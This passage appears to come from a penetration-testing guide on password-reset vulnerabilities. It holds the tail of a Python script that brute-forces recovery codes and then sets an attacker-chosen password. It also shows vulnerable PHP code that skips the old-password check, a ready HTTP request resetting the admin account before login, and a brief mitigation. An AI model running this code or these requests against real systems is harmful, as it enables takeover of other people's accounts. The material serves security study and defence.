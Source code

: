 ```
                                ter = 0 # reset ter so we get a new session after 8 trails
                        else:
                                ter += 1
                                if(len(res.text) == 2292): # this is the length of the page when u get the recovery code correctly (got by testing)
                                        print(len(res.text)) # for debug info
                                        print(phpsessid) 
        
                                        reset_data = { # here we will change the password to somthing new 
                                        "new_password": "D37djkamd!",
                                        "confirm_password": "D37djkamd!"
                                        }
                                        reset2 = requests.post(url, data=reset_data, allow_redirects=True, verify=False, headers=headers)
        
                                        print("[+] Password has been changed to:D37djkamd!")
                                        break 
        except Exception as e:
                print("[+] Attck stopped")
      ```

## Arbitrary password reset via skipOldPwdCheck (pre-auth)

Some implementations expose a password change action that calls the password-change routine with skipOldPwdCheck=true and does not verify any reset token or ownership. If the endpoint accepts an action parameter like change_password and a username/new password in the request body, an attacker can reset arbitrary accounts pre-auth.

Vulnerable pattern (PHP):

```php
// hub/rpwd.php
RequestHandler::validateCSRFToken();
$RP = new RecoverPwd();
$RP->process($_REQUEST, $_POST);

// modules/Users/RecoverPwd.php
if ($request['action'] == 'change_password') {
  $body = $this->displayChangePwd($smarty, $post['user_name'], $post['confirm_new_password']);
}

public function displayChangePwd($smarty, $username, $newpwd) {
  $current_user = CRMEntity::getInstance('Users');
  $current_user->id = $current_user->retrieve_user_id($username);
  // ... criteria checks omitted ...
  $current_user->change_password('oldpwd', $_POST['confirm_new_password'], true, true); // skipOldPwdCheck=true
  emptyUserAuthtokenKey($this->user_auth_token_type, $current_user->id);
}
```
```
Exploitation request (concept):

```http
POST /hub/rpwd.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

action=change_password&user_name=admin&confirm_new_password=NewP@ssw0rd!
```
```
Mitigations:
- Always require a valid, time-bound reset token bound to the account and session before changing a password.
```